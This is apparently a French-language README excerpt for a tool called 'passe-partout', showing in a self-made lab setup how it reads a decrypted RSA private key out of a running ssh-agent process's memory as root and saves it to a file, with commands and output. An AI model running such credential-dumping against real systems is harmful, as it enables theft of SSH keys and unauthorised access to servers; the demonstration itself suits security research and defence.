 ## ssh-agent

Création des clés RSA (publique et privée) chiffrées avec le mot de
passe "mysuperpassword" :


```bash
$ ssh-keygen -qN mysuperpassword -t rsa -f /tmp/myrsa.key
```


Remplacement de la liste des clés autorisées à se connecter sur le
serveur distant avec la nouvelle clé publique :


```bash
$ scp /tmp/myrsa.key.pub 192.168.0.1:~/.ssh/authorized_keys2
admin@192.168.0.1's password:
myrsa.key.pub                              100%  393     0.4KB/s   00:00
```


Démarrage d'une nouvelle instance de ssh-agent :


```bash
$ eval `ssh-agent`
Agent pid 4712
```


Enregistrement de la clé RSA privée auprès de ssh-agent :


```bash
$ ssh-add /tmp/myrsa.key
Enter passphrase for /tmp/myrsa.key:
Identity added: /tmp/myrsa.key (/tmp/myrsa.key)
```


À partir de ce moment, la clé privée est déchiffrée et stockée dans la
mémoire du processus ssh-agent.
Il est maintenant possible de lire la clé privée avec l'extracteur en
tant qu'utilisateur root :


```bash
$ sudo ./passe-partout 4712
[sudo] password for jb:
Target has pid 4712
on_signal(17 - SIGCHLD) from 4712
[-] invalid DSA key.
[-] invalid DSA key.
[-] invalid DSA key.
[-] invalid DSA key.
[X] Valid RSA key found.
[X] Key saved to file id_rsa-0.key
[-] invalid DSA key.
[-] invalid DSA key.
[-] invalid DSA key.
[-] invalid DSA key.
done for pid 4712
```
